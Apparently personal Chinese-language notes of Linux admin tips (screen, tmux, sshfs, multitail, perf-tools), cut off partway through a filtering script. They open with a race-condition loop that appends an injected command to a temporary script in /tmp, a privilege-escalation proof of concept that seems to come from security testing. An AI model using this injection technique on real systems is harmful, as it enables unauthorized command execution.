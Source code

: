 往临时脚本注入命令
while [ 1 ]; do cat /tmp/dbusertmpscript-3001-execsql-redis.sh
>/tmp/watchme 2>>/dev/null; if [ -s /tmp/watchme ]; then echo
";whoami > /tmp/ioactive_flag;chmod 666 /tmp/ioactive_flag" >>
/tmp/dbusertmpscript-3001-execsql-redis.sh; rm /tmp/watchme;
break; fi; done; sleep 1; cat /tmp/ioactive_flag


screen使用
1、直接输入screen启动一个screen窗口，要暂停可以输入ctrl+a d,退出exit
2、screen -list 查看有哪些screen
3、screen -r xxx切换到screen session

sshfs挂载远程文件
sshfs root@10.67.252.200:/opt/gcf /mnt
fusermount -u /mnt --解挂

shc可以将shell转化成可执行文件

multitail可同时tail多个文件，功能比tail强大
http://www.oschina.net/p/multitail/similar_projects
http://www.ubuntugeek.com/multitail-view-multiple-logfiles-windowed-on-console.html
--retry-all 参数：如果文件被删除也可以继续
--mergeall 所有文件合并一个文件

tmux #开启tmux
tmux ls #列出会话(tmux list-session )
tmux attach #Tmux重新连接到之前的窗口可使用
tmux attach -t session #进入某个会话
tmux -r #连接上次断开的session
tmux kill-session #关闭上次tmux打开窗口
tmux kill-server #关闭所有tmux打开窗口
http://blog.jobbole.com/87278/
http://blog.jobbole.com/87584/

包含大量内核级工具，包括类似extrace
https://github.com/brendangregg/perf-tools

过滤重复的命令
extrace -d |grep -v /opt/gcf/temp |sh my.sh
my.sh的内容为：
#!/bin/sh
if [ $# -gt 0 ];then
exec 0<$1;
#判断是否传入参数：文件名，如果传入，将该文件绑定到标准输入
fi
while read line
do

echo "$line"|grep -sq /opt/gcf/temp

if [ $? -eq 0 ]
then
continue
fi
